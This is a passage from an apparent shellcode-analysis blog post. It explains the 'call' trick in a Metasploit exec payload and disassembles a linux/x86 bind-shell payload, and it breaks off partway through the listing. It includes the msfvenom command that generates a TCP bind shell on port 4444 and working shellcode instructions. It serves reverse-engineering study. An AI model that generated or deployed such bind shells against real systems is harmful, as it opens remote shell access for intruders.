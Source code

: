 ### The "call" trick

The payload generated by msfvenom uses a clever trick to store the command to be executed into the stack.

![Call trick]({{site.url}}/assets/images/exec_with_null_the_call.png)

When a CALL instruction is executed, the program passes the control to a given
address storing into the stack the value right after the call itself,
0x0040203d in our case.

The bunch of bytes at this address are no more than "/bin/sh" string.

![Call trick continue]({{site.url}}/assets/images/exec_with_null_call_trick.png)

Back to our registers, EDX is NULL.

So when INT 0x80 it has been called, the following command will be executed
"/bin/sh -c /bin/sh". 

Metasploit shellcode is built to be independent from the command the user asks,
so a first shell is spawned with '-c' argument that says the shell will execute
the string passed as parameter value, "/bin/sh", in our case.

![Exec]({{site.url}}/assets/images/exec_with_null_shell.png)

## ndisasm in action for linux/x86/shell_bind_tcp payload

With the following command we create a TCP BIND shellcode listening to port
4444 and we pass to ndisasm tool creating a disassembled output.

> msfvenom -p linux/x86/shell_bind_tcp -a x86 --platform linux -f raw | ndisasm -u - > bind_tcp.ndisasm

{%highlight asm%}
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
0000000F  5B                pop ebx
00000010  5E                pop esi
00000011  52                push edx
00000012  680200115C        push dword 0x5c110002
00000017  6A10              push byte +0x10
00000019  51                push ecx
0000001A  50                push eax
0000001B  89E1              mov ecx,esp
0000001D  6A66              push byte +0x66
0000001F  58                pop eax
00000020  CD80              int 0x80
00000022  894104            mov [ecx+0x4],eax
00000025  B304              mov bl,0x4
00000027  B066              mov al,0x66
00000029  CD80              int 0x80
0000002B  43                inc ebx
0000002C  B066              mov al,0x66
0000002E  CD80              int 0x80
00000030  93                xchg eax,ebx
00000031  59                pop ecx
00000032  6A3F              push byte +0x3f
00000034  58                pop eax